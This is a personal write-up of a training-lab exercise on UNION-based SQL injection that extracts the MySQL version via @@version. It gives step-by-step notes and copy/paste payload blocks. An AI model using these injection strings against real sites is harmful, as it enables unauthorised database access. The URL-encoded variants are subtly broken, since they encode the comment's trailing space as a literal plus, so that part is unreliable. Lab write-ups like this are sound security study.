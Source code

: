 # SQL injection attack, querying the database type and version on MySQL and Microsoft

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Query the MySQL database version** using `@@version` via a UNION-based injection.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: query db version from mysql server.**

2. **Find vuln param: `/filter?category=Corporate+gifts'`**

3. **fix: `/filter?category=Corporate+gifts'+--+`**

4. **Add union to combine queries: `'+UNION+SELECT+NULL+--+` -> getting 500 status**

5. **adding column: `'+UNION+SELECT+NULL,NULL+--+` -> getting 200**

6. **we have reflection, lets try extracting the version: `'+UNION+SELECT+@@version,NULL+--+`**

7. **Lab solved!**

---

## 🧠 Minimal Additions (Why This Works)

- **UNION rules:** The injected `UNION SELECT` must match the **number of columns** (and ideally compatible types) from the original query.  
  - Step 4 (**1 column**) ⇒ **500 error** → mismatch.  
  - Step 5 (**2 columns**) ⇒ **200 OK** → column count now matches.
- **Choosing `NULL`:** `NULL` is type-flexible and helps avoid type errors during column discovery.
- **MySQL version source:** `@@version` returns the server version string in MySQL - Found by GOOGLE search (See picture).
- **Commenting remainder:** In MySQL, `--` starts a comment **if followed by a whitespace** (space, newline, etc.). Using `--+` ensures a trailing space (since `+` decodes as space). Alternatives: `#` (comment to EOL) or `/* ... */`.
- **URL encoding:** `+` is typically treated as a space in query strings. Where precision matters, use `%20` for an explicit space.

---

## 🔧 Payloads I Used (Copy/Paste)

**As entered (human-readable with `+` for spaces):**
```txt
/filter?category=Corporate+gifts'
/filter?category=Corporate+gifts'+--+
/filter?category=Corporate+gifts'+UNION+SELECT+NULL+--+
/filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL+--+
/filter?category=Corporate+gifts'+UNION+SELECT+@@version,NULL+--+
```

**URL-encoded variants (safe in raw requests):**
```txt
/filter?category=Corporate%20gifts%27
/filter?category=Corporate%20gifts%27--%2B
/filter?category=Corporate%20gifts%27%20UNION%20SELECT%20NULL--%2B
/filter?category=Corporate%20gifts%27%20UNION%20SELECT%20NULL%2CNULL--%2B
/filter?category=Corporate%20gifts%27%20UNION%20SELECT%20%40%40version%2CNULL--%2B
```

> Tip: If the app renders the **second column** on the page, swap positions (e.g., `NULL,@@version`).

---

## 🏁 Result
- The endpoint reflects `@@version`, revealing the **MySQL server version**. **Lab Solved. ✅**
